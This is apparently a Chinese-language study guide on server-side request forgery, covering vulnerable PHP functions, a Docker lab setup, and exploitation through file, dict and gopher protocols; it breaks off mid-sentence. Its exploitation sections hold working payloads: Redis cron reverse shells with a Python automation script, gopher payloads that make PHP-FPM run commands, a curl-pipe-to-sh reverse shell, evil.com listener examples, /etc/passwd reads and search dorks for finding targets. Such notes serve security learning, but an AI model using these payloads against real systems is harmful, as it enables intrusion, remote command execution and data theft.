




# SSRF 学习记录

[TOC]

## 0x01 SSRF简介

SSRF(Server-Side Request Forgery:服务器端请求伪造)是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统.(正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统) 下面这张图很好的展示了SSRF的流程:


通俗点来说，就是用户无法访问内网的某些数据，通过访问服务端，给服务端发出特定的请求，让服务端去访问内网得到数据，再由服务端返回数据给用户。


## 0x02 检测SSRF

### ssrf 漏洞出现的常见场景

> - 能够对外发起网络请求的地方，就可能存在 SSRF 漏洞
> - 从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）
> - 数据库内置功能（Oracle、[MongoDB](https://cloud.tencent.com/product/mongodb?from=10680)、MSSQL、Postgres、CouchDB）
> - Webmail 收取其他邮箱邮件（POP3、IMAP、SMTP）
> - 文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）


> 1. 社交分享功能：获取超链接的标题等内容进行显示
> 2. 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
> 3. 在线翻译：给网址翻译对应网页的内容
> 4. 图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片
> 5. 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用户体验
> 6. 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试
> 7. 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作
> 8. 数据库内置功能：数据库的比如mongodb的copyDatabase函数
> 9. 邮件系统：比如接收邮件服务器地址
> 10. 编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等
> 11. 未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上这些关键字去寻找SSRF漏洞。 一些的url中的关键字：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……
> 12. 从远程服务器请求资源（upload from url 如discuz！；import & expost rss feed 如web blog；使用了xml引擎对象的地方 如wordpress xmlrpc.php）


### **SSRF漏洞验证**

> 1.排除法：浏览器f12查看源代码看是否是在本地进行了请求
>
> 比如：该资源地址类型为 http://www.xxx.com/a.php?image=（地址）的就可能存在SSRF漏洞
>
> 2.dnslog等工具进行测试，看是否被访问
>
> --可以在盲打后台用例中将当前准备请求的uri 和参数编码成base64，这样盲打后台解码后就知道是哪台机器哪个cgi触发的请求。
>
> 3.抓包分析发送的请求是不是由服务器的发送的，如果不是客户端发出的请求，则有可能是，接着找存在HTTP服务的内网地址
>
> --从漏洞平台中的历史漏洞寻找泄漏的存在web应用内网地址
>
> --通过二级域名暴力猜解工具模糊猜测内网地址
>
> 4.直接返回的Banner、title、content等信息
>
> 5.留意bool型SSRF


### burp简单测试


从上面SSRF的流程可以看出，我们得到的数据是由服务端请求得到的，所以我们可以通过抓包来检测数据的来源来判断是否是由浏览器发出来的请求。我以一个存在SSRF的靶场为例子。
如图，我们发出了一个请求，访问了百度


如果是我们本地发出的，那么burpsuite我们将截取到另外一个访问百度的包，但是我们可以看出，仍然只得到了刚才的一个包。


所以可以证明访问百度的请求是由服务端发出的，故存在SSRF漏洞


## 0x03 挖掘SSRF

### 1. Googlehacking

- inurl:?apiurl=
- inurl:?url=
- inurl:?image=http://  ?image=https://
- site:fanyi.*.com
- inurl:?site=

### 2. 二级域名搜集

### 3. 上面写的漏洞出现场景


## 0x04 SSRF 常见利用函数

### php

#### file_get_contents

```php
<?php
if (isset($_POST['url'])) { 
    $content = file_get_contents($_POST['url']); 
    $filename ='./images/'.rand().';img1.jpg'; 
    file_put_contents($filename, $content); 
    echo $_POST['url']; 
    $img = ""; 
}
echo $img;
?>
```

#### fsockopen

```php
<?php 
function GetFile($host,$port,$link) { 
    $fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
    if (!$fp) { 
        echo "$errstr (error number $errno) \n"; 
    } else { 
        $out = "GET $link HTTP/1.1\r\n"; 
        $out .= "Host: $host\r\n"; 
        $out .= "Connection: Close\r\n\r\n"; 
        $out .= "\r\n"; 
        fwrite($fp, $out); 
        $contents=''; 
        while (!feof($fp)) { 
            $contents.= fgets($fp, 1024); 
        } 
        fclose($fp); 
        return $contents; 
    } 
}
?>
```

#### curl_exec()

```php
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $curlobj = curl_init();
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($curlobj);
    curl_close($curlobj);

    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result); 
    echo $result;
}
?>
```


### python


### java


### go


### nodejs


## 0x05 SSRF 测试环境：ssrf-lab

先按照下面的命令把 `basic` 这一关搭建好，其他的基本相同。在创建容器的时候避免出冲突，端口 `8999` 在设置要注意，避免与本地已开启端口产生冲突。

```javascript
$ git clone https://github.com/m6a-UdS/ssrf-lab.git
$ cd ~/ssrf-lab/basics #进入basics文件夹
$ docker build -t ssrf-lab/basic . #构建镜像
$ docker run -d -p 8999:80 ssrf-lab/basic #创建容器
$ docker ps #查看ssrf-lab/basic容器编号
$ docker stop [容器编号] #关闭容器
```

在 Advances 系列的文件夹还有 ctf 中没有 `dockerfile` 文件，只有 `docker-compose.yml` 文件，这时候我们就要在构建镜像的时候就换 `docker-compose` 来创建镜像并开启容器了。

```javascript
$ cd ~/ssrf-lab/advanced1 # 进入advanced1目录下
$ docker-compose up -d #开启容器 
$ docker-compose down #关闭容器
```

在开启容器的时候的时候出了问题，因为在官网找不到 urllib2 的下载路径，编辑 `~/ssrf-lab/advanced2/flask-webserver` 文件，去掉其中的 urllib2。


### Part 1：basic


打开页面，OUTGOING WEBHOOK 部分输入的`https://yourhandler.io/events`是有 REST API 监听的需要测试项目，在 SEE THE RESULT 的部分会显示请求响应的结果和状态码。输入 `https://yourhandler.io/events`的位置就可以作为一个测试点。

我们先用`http://127.0.0.1`进行测试。


发现数据显示出来了，说明这里没有对内网 IP 进行限制。


#### 安装redis

```javascript
$ docker ps #查看容器编号
$ docker exec -it [ssrf-lab/basics容器编号] /bin/bash #进入容器
$ apt-get install redis-server # 安装redis服务
$ redis-server #开启redis服务
```

这一关可以利用协议收集信息及反弹 shell，都是没用协议白名单的锅，导致多个协议利用起来毫无阻力。


## 0x06 SSRF 利用

> **我们可以用SSRF做些什么？** 
>
> - 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
> - 攻击运行在内网或本地的应用程序（比如溢出）
> - 对内网 WEB 应用进行指纹识别，通过访问默认文件实现
> - 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
> - 利用 `file` 协议读取本地文件等


### 1. ssrf到反射xss


### 2. 协议&伪协议利用


```http
https://
http://
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```


#### file:// 本地文件读取

File是用来从文件系统获取文件

```php
http://example.com/ssrf.php?url=file:///etc/passwd
http://example.com/ssrf.php?url=file:///C:/Windows/win.ini
```

如果服务器阻止对外部站点或白名单的http请求，您可以简单地使用以下URL模式来发出请求:


**注**：curl支持`file://host/path, file://path`这两种形式, 但是即使有`host, curl`仍然会访问到本地的文件。不过这在curl 7.54之后被修复。


详情见例题：LCTF签到题

```python
file://www.baidu.com/etc/flag?
```


#### **dict:// 指纹探测** & redis 反弹shell

DICT URL方案用于表示使用DICT协议可用的定义或单词列表：

```php
http://example.com/ssrf.php?dict://evil.com:1337/

evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
CLIENT libcurl 7.40.0
```


dict探测redis

- dict://127.0.0.1:6379/info 可获取本地redis服务配置信息。
- dict://127.0.0.1:6379/KEYS * 获取 redis 存储的内容


---


**定义**：词典网络协议，在RFC 2009中进行描述。它的目标是超越Webster protocol，并允许客户端在使用过程中访问更多字典。Dict服务器和客户机使用TCP端口2628。（摘自百度百科）


在SSRF利用中，gopher协议无疑是最好用的，但gopher协议的使用是有一定条件的，如下：


gopher协议使用限制


当gopher协议无法使用时，怎么办？这时候可以使用dict协议，我们先看执行效果：


由上图可以发现通过dict协议，可以看出目标端口的指纹信息，通过上图返回的指纹信息，可以明确，是6379的redis数据库。OK，现在我们知道，利用dict协议可以探测端口的开放情况和指纹信息，那么dict协议怎么进一步使用？有什么语法？以下为dict协议的使用：


1. dict://serverip:port/命令:参数
2. 向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增添了便利
3. 通过dict协议的话要一条一条的执行，而gopher协议执行一条命令就行了。


通过dict协议利用redis的未授权访问反弹shell的步骤如下：

```sh
# 1、开启反弹shell的监听
nc -l 9999
# 2、依次执行下面的命令
curl dict://192.168.0.119:6379/set:mars:"\n\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n"
curl dict://192.168.0.119:6379/config:set:dir:/etc/
curl dict://192.168.0.119:6379/config:set:dbfilename:crontab
curl dict://192.168.0.119:6379/bgsave
```

执行时，反弹shell的命令，也就是set:mars:xxx，会因为特殊字符的原因无法写入到目标的redis中，被被空格所分割导致出现一下情况：

```sh
1584705879.520734 [0 172.17.0.1:44488] "set" "mars" "\\n\\n*" "*" "*" "*" "*" "root" "bash" "-i" ">&" "/dev/tcp/192.168.0.119/6789" "0>&1\\n\\n"
```

根据上图我们会发现，命令被分割了，看表象感觉像是被空格分割了。此时将反弹shell的命令进行十六进制转换，变为：

```sh
curl dict://192.168.0.119:6379/set:mars:\"\\x0a\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x72\\x6f\\x6f\\x74\\x20\\x62\\x61\\x73\\x68\\x20\\x2d\\x69\\x20\\x3e\\x26\\x20\\x2f\\x64\\x65\\x76\\x2f\\x74\\x63\\x70\\x2f\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x30\\x2e\\x31\\x31\\x39\\x2f\\x39\\x39\\x39\\x39\\x20\\x30\\x3e\\x26\\x31\\x0a\"
```

以上单引号使用反斜杠\进行转移，其他数据进行十六进制编码，执行结果如下，可以发现没有错误了

```sh
1584706087.980465 [0 172.17.0.1:44490] "set" "mars" "\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n"
```

剩下的修改路径和文件名称的请求，正常执行即可，脚本如下：

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib,binascii
url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
target = "dict://192.168.0.119:6379/"
cmds = ['set:mars:\\\\"\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\\n\\\\"',
       "config:set:dir:/etc/",
       "config:set:dbfilename:crontab",
       "bgsave"]

for cmd in cmds:
    cmd_encoder = ""
    for single_char in cmd:
        # 先转为ASCII
        cmd_encoder += hex(ord(single_char)).replace("0x","")
    cmd_encoder = binascii.a2b_hex(cmd_encoder)
    cmd_encoder = urllib.quote(cmd_encoder,'utf-8')

    payload = url + target + cmd_encoder
    print payload
    request = urllib2.Request(payload)
    response = urllib2.urlopen(request).read()
```

但很多时候我们利用ssrf漏洞去攻击内网服务器的时候，并不知道内网中有什么样的应用、IP地址是多少、开放了什么端口、端口对应的服务是什么。所以需要先对内网做IP+端口的扫描，如果开放的服务是redis才能使用上文讲到的利用方法，对于不同的应用有不同的扫描方法，例如，redis的扫描可以请求以下内容来根据回显内容进行判断是否为redis，其他的服务也是同样道理，只要知道服务的指纹，然后与自己的指纹库进行比对即可：

```sh
curl dict://192.168.0.119:6379/
```


#### sftp:// 

Sftp代表SSH文件传输协议，或安全文件传输协议，是SSH的内含协议，在安全连接上与SSH类似。

```php
http://example.com/ssrf.php?url=sftp://evil.com:1337/

evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
SSH-2.0-libssh2_1.4.2
```


#### ldap:// or ldaps:// or ldapi:// -

LDAP代表轻量级目录访问协议。它是一种通过IP网络管理和访问分布式目录信息服务的应用协议。

```php
http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit
http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit
http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
```


#### tftp:// 

简单文件传输协议是一种简单的锁步文件传输协议，它允许客户端从远程主机获取文件或将文件放到远程主机上。

```php
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET

evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout3
```


#### imap/imaps/pop3/pop3s/smtp/smtps

爆破邮件用户名密码


#### telnet

SSH/Telnet匿名访问及爆破


#### smb/smbs

SMB匿名访问及爆破


#### **gopher://** 

Gopher是一种分布式的文档传递服务。它允许用户以无缝的方式探索、搜索和检索驻留在不同位置的信息。

```php
http://example.com/ssrf.php?url=http://attacker.com/gopher.php
gopher.php (host it on acttacker.com):-
<?php
   header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');
?>

evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 49398)
Hi
ssrf
test
```


##### gopher协议的格式

```
gopher://127.0.0.1:70/_ + TCP/IP数据
```


gopher的默认端口为70，如果没有指定端口，比如`gopher://127.0.0.1/_test`默认是发送给70端口的


这里的`_`是一种数据连接格式，不一定是`_`，其他任意字符都行，例如这里以`1`作为连接字符：

```
root@kali:~# curl gopher://127.0.0.1/1test
```


gopher会将后面的数据部分发送给相应的端口，这些数据可以是字符串，也可以是其他的数据请求包，比如GET，POST请求，redis，mysql未授权访问等，**同时数据部分必须要进行url编码，这样gopher协议才能正确解析。**


##### https&http请求包


构造gopher本地请求(将数据包进行url编码)：
请求包内容：

```http
GET /index.php?test=123 HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


然后对数据编码发送gopher

```sh
curl gopher://127.0.0.1:80/_%47%45%54%20%2f%69%6e%64%65%78%2e%70%68%70%3f%74%65%73%74%3d%31%32%33%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%32%37%2e%30%2e%30%2e%31%0d%0a%55%70%67%72%61%64%65%2d%49%6e%73%65%63%75%72%65%2d%52%65%71%75%65%73%74%73%3a%20%31%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%4d%6f%7a%69%6c%6c%61%2f%35%2e%30%20%28%57%69%6e%64%6f%77%73%20%4e%54%20%31%30%2e%30%3b%20%57%69%6e%36%34%3b%20%78%36%34%29%20%41%70%70%6c%65%57%65%62%4b%69%74%2f%35%33%37%2e%33%36%20%28%4b%48%54%4d%4c%2c%20%6c%69%6b%65%20%47%65%63%6b%6f%29%20%43%68%72%6f%6d%65%2f%37%34%2e%30%2e%33%37%32%39%2e%31%36%39%20%53%61%66%61%72%69%2f%35%33%37%2e%33%36%0d%0a%41%63%63%65%70%74%3a%20%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%77%65%62%70%2c%69%6d%61%67%65%2f%61%70%6e%67%2c%2a%2f%2a%3b%71%3d%30%2e%38%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%73%69%67%6e%65%64%2d%65%78%63%68%61%6e%67%65%3b%76%3d%62%33%0d%0a%41%63%63%65%70%74%2d%45%6e%63%6f%64%69%6e%67%3a%20%67%7a%69%70%2c%20%64%65%66%6c%61%74%65%0d%0a%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%3a%20%7a%68%2d%43%4e%2c%7a%68%3b%71%3d%30%2e%39%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%0d%0a%0d%0a
```


url解码：

```sh
curl gopher://127.0.0.1:80/_GET /index.php?test=123 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


> 实际测试以及阅读文章中发现gopher存在以下几点问题
>
> 1. PHP的curl默认不跟随302跳转
> 2. curl7.43gopher协议存在%00截断的BUG，v7.45以上可用
> 3. file_get_contents()的SSRF，gopher协议不能使用URLencode
> 4. file_get_contents()的SSRF，gopher协议的302跳转有BUG会导致利用失败


#### phar:// 触发反序列化


### 3. 扫描内部网络和端口

使用dict协议。


### 4. 302跳转


### 5. Gopher攻击FastCGI

一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。

> p神介绍FastCGI的文章：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html
> 实验环境：https://github.com/vulhub/vulhub/tree/master/fpm
> 利用条件
>
> - libcurl版本>=7.45.0(由于EXP里有%00，CURL版本小于7.45.0的版本，gopher的%00会被截断)
> - PHP-FPM监听端口
> - PHP-FPM版本 >= 5.3.3
> - 知道服务器上任意一个php文件的绝对路径
>


监听一个端口的流量`nc -lvvp 2333 > 1.txt`，执行EXP，流量打到2333端口

```sh
python fpm.py -c "<?php system('echo sectest > /tmp/1.php'); exit;?>" -p 2333 127.0.0.1 /usr/local/lib/php/PEAR.php
```


fpm.py地址https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

url编码

```python
f = open('1.txt')
ff = f.read()
from urllib import quote
print quote(ff)
curl 'gopher://127.0.0.1:9000/_%01%01%5E%94%00%08%00%00%00%01%00%00%00%00%00%00%01%04%5E%94%01%E7%00%00%0E%02CONTENT_LENGTH50%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/lib/php/PEAR.php%0B%1BSCRIPT_NAME/usr/local/lib/php/PEAR.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/lib/php/PEAR.php%01%04%5E%94%00%00%00%00%01%05%5E%94%002%00%00%3C%3Fphp%20system%28%27echo%20sectest%20%3E%20/tmp/1.php%27%29%3B%20exit%3B%3F%3E%01%05%5E%94%00%00%00%00'
```


在php尝试一下SSRF

```sh
?url=
gopher%3A%2f%2f127.0.0.1%3A9000%2f_%2501%2501%255E%2594%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%255E%2594%2501%25E7%2500%2500%250E%2502CONTENT_LENGTH50%250C%2510CONTENT_TYPEapplication%2ftext%250B%2504REMOTE_PORT9985%250B%2509SERVER_NAMElocalhost%2511%250BGATEWAY_INTERFACEFastCGI%2f1.0%250F%250ESERVER_SOFTWAREphp%2ffcgiclient%250B%2509REMOTE_ADDR127.0.0.1%250F%251BSCRIPT_FILENAME%2fusr%2flocal%2flib%2fphp%2fPEAR.php%250B%251BSCRIPT_NAME%2fusr%2flocal%2flib%2fphp%2fPEAR.php%2509%251FPHP_VALUEauto_prepend_file%2520%253D%2520php%253A%2f%2finput%250E%2504REQUEST_METHODPOST%250B%2502SERVER_PORT80%250F%2508SERVER_PROTOCOLHTTP%2f1.1%250C%2500QUERY_STRING%250F%2516PHP_ADMIN_VALUEallow_url_include%2520%253D%2520On%250D%2501DOCUMENT_ROOT%2f%250B%2509SERVER_ADDR127.0.0.1%250B%251BREQUEST_URI%2fusr%2flocal%2flib%2fphp%2fPEAR.php%2501%2504%255E%2594%2500%2500%2500%2500%2501%2505%255E%2594%25002%2500%2500%253C%253Fphp%2520system%2528%2527echo%2520sectest%2520%253E%2520%2ftmp%2f1.php%2527%2529%253B%2520exit%253B%253F%253E%2501%2505%255E%2594%2500%2500%2500%2500
```


#### 反弹shell

```sh
python fpm.py -c "<?php system('curl https://shell.now.sh/xxx.xxx.xxx.xxx:2222 | sh'); exit;?>" -p 2333 127.0.0.1 /usr/local/lib/php/PEAR.php
```


```
?url=
gopher://127.0.0.1:9000/_%01%01%EA%5E%00%08%00%00%00%01%00%00%00%00%00%00%01%04%EA%5E%01%E7%00%00%0E%02CONTENT_LENGTH75%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/lib/php/PEAR.php%0B%1BSCRIPT_NAME/usr/local/lib/php/PEAR.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/lib/php/PEAR.php%01%04%EA%5E%00%00%00%00%01%05%EA%5E%00K%00%00%3C%3Fphp%20system%28%27curl%20https%3A//shell.now.sh/xxx.xxx.xxx.xxx%3A2222%20%7C%20sh%27%29%3B%20exit%3B%3F%3E%01%05%EA%5E%00%00%00%00
```


反弹shell成功


#### Gopherus

```sh
python gopherus.py --exploit fastcgi
```

2.[](https://xzfile.aliyuncs.com/media/upload/picture/20190709100815-69548c08-a1ee-1.jpg)


### 6. Gopher 攻击mysql

#### MySQL连接方式：

在进行利用SSRF攻击MySQL之前，先了解一下MySQL的通信协议。MySQL分为服务端和客户端，客户端连接服务器使存在三种方法：

- Unix套接字；
- 内存共享/命名管道；
- TCP/IP套接字；

在Linux或者Unix环境下，当我们输入mysql–uroot –proot登录MySQL服务器时就是用的Unix套接字连接；Unix套接字其实不是一个网络协议，只能在客户端和Mysql服务器在同一台电脑上才可以使用。

在window系统中客户端和Mysql服务器在同一台电脑上，可以使用命名管道和共享内存的方式。

TCP/IP套接字是在任何系统下都可以使用的方式，也是使用最多的连接方式，当我们输入mysql–h127.0.0.1 –uroot –proot时就是要TCP/IP套接字。

所以当我们需要抓取mysql通信数据包时必须使用TCP/IP套接字连接。


#### MySQL认证过程：

MySQL客户端连接并登录服务器时存在两种情况：需要密码认证以及无需密码认证。当需要密码认证时使用挑战应答模式，服务器先发送salt然后客户端使用salt加密密码然后验证；当无需密码认证时直接发送TCP/IP数据包即可。所以在非交互模式下登录并操作MySQL只能在无需密码认证，未授权情况下进行，本文利用SSRF漏洞攻击MySQL也是在其未授权情况下进行的。

MySQL客户端与服务器的交互主要分为两个阶段：Connection Phase（连接阶段或者叫认证阶段）和Command Phase（命令阶段）。在连接阶段包括握手包和认证包，这里我们不详细说明握手包，主要关注认证数据包。

认证数据包格式如下：


#### 开始

环境使用mattrayner/lamp:latest-1604-php7 docker


```
root@487d27afcad1:/# uname -a
Linux 487d27afcad1 4.10.4-1.el7.elrepo.x86_64 #1 SMP Sat Mar 18 12:50:10 EDT 2017 x86_64 x86_64 x86_64 GNU/Linux

root@487d27afcad1:/# curl -V
curl 7.47.0 (x86_64-pc-linux-gnu) libcurl/7.47.0 GnuTLS/3.4.10 zlib/1.2.8 libidn/1.32 librtmp/2.3
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtmp rtsp smb smbs smtp smtps telnet tftp
Features: AsynchDNS IDN IPv6 Largefile GSS-API Kerberos SPNEGO NTLM NTLM_WB SSL libz TLS-SRP UnixSockets

root@487d27afcad1:/# mysql -V
mysql  Ver 14.14 Distrib 5.7.23, for Linux (x86_64) using  EditLine wrapper

root@487d27afcad1:/# php -v
PHP 7.2.9-1+ubuntu16.04.1+deb.sury.org+1 (cli) (built: Aug 19 2018 07:16:12) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.2.9-1+ubuntu16.04.1+deb.sury.org+1, Copyright (c) 1999-2018, by Zend Technologies
    with Xdebug v2.6.0, Copyright (c) 2002-2018, by Derick Rethans
```

创建数据库

```
mysql> create database flag;
Query OK, 1 row affected (0.01 sec)

mysql> use flag;
Database changed
mysql> create table flag(flag varchar(30) not null);
Query OK, 0 rows affected (0.03 sec)

mysql> INSERT INTO flag VALUES('flag{gopher_i3_Vu1n3rab13}');
Query OK, 1 row affected (0.04 sec)
```

使用[gopherus](https://github.com/tarunkant/Gopherus)生成payload


线上测试

index.php

```
<?php
$url = @$_GET['url'];
if($url) {
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
    $co = curl_exec($ch);
    curl_close($ch);
    echo $co;
}
?>
```

注意：如果ssrf的点是get参数，因为处于url中，则需要进行一次url编码，上述例子将会编码成：

```
